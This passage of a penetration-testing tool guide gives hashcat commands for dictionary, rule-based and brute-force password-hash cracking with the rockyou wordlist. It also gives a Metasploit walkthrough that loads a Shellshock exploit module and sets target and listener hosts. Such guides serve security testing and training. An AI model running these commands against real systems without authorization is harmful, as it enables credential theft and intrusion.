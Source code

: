 #### Basic Usage
```bash
# Basic dictionary attack
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# With rules
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Brute force attack
hashcat -m 0 -a 3 hash.txt ?a?a?a?a?a?a
```

#### Configuration Tips
- For GPU acceleration, ensure you have compatible drivers
- Check GPU status with:
  ```bash
  hashcat -I
  ```
- Create custom rules in a .rule file

## Exploitation Frameworks

### Metasploit Framework

Metasploit Framework is a penetration testing platform that enables you to find, exploit, and validate vulnerabilities.

#### Installation
```bash
# Metasploit comes pre-installed in Kali Linux
# To ensure you have the latest version:
sudo apt update
sudo apt install metasploit-framework -y
```

#### Basic Usage
```bash
# Start Metasploit console
msfconsole

# Search for exploits
search apache

# Use an exploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec

# Set options
set RHOSTS 192.168.1.1
set LHOST 192.168.1.2

# Run the exploit
exploit
```
